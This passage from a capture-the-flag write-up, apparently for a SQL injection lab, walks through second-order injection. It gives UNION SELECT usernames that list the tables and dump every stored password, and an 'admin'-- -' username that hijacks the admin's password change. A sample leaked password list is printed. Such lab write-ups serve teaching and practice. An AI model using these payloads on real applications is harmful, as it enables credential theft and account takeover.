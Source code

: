 With our malicious username, the application performs the following query when we click on Notes:

```shell
SELECT title, note FROM notes WHERE username = '' union select 1,2''
```

Now create a new username with the following username, log in and click on Notes:

```shell
' union select 1,group_concat(tbl_name) from sqlite_master where type='table' and tbl_name not like 'sqlite_%''
```

We will see at the bottom under number 1 the following:

```shell
users,notes
```

Lets create another username to enumerate the table users.

Enter the following as the new username:

```shell
'  union select 1,group_concat(password) from users'
```

Now log in with the new username and click on Notes, we will see the following:

```shell
rcLYWHCxeGUsA9tH3GNV,asd,Summer2019!,345m3io4hj3,THM{REDACTED},viking123,testtest,testtest,testtest,testtest,testtest,testtest,testtest
```

There is the flag!

### Task 8 - Vulnerable Startup: Change Password
Goal: For this challenge, the vulnerability on the note page has been fixed. A new change password function has been added to the application, so the users can now change their password by navigating to the Profile page. The new function is vulnerable to SQL injection because the UPDATE statement concatenates the username directly into the SQL query, as can be seen below. The goal here is to exploit the vulnerable function to gain access to the admin's account.

After reading the task instructions, we found out how to proceed.

Create a new username with the following username first:

```shell
admin'-- -
```

Then go Profile and change the password of our new username to the following as new password:

```shell
admin' -- -
```

Now we successfully changed the password of the real admin user to `admin' -- -`.

We can log out now and use the following credentials to log in as the real admin:

```shell
# Username
admin

# Password
admin' -- -
```
